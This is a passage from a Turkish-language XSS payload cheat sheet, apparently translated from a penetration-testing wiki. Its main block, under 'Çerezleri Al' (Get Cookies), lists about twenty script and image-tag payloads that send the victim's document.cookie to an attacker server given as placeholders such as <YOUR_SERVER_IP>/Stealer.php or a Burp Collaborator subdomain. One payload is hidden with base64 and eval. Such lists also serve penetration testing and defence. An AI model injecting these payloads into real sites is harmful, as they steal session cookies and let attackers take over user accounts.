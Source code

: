 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS yaygın yükler

### Birden Fazla Yük

{{#ref}}
steal-info-js.md
{{#endref}}

### Iframe Tuzağı

Kullanıcının bir iframe'den çıkmadan sayfada gezinmesini sağla ve eylemlerini çal (formlarda gönderilen bilgiler dahil):

{{#ref}}
../iframe-traps.md
{{#endref}}

### Çerezleri Al
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
> [!NOTE]
> Eğer çerezde HTTPOnly bayrağı ayarlandıysa, **JavaScript'ten çerezlere erişemezsiniz**. Ama burada [bu korumayı aşmanın bazı yolları var](../hacking-with-cookies/index.html#httponly) eğer yeterince şanslıysanız.
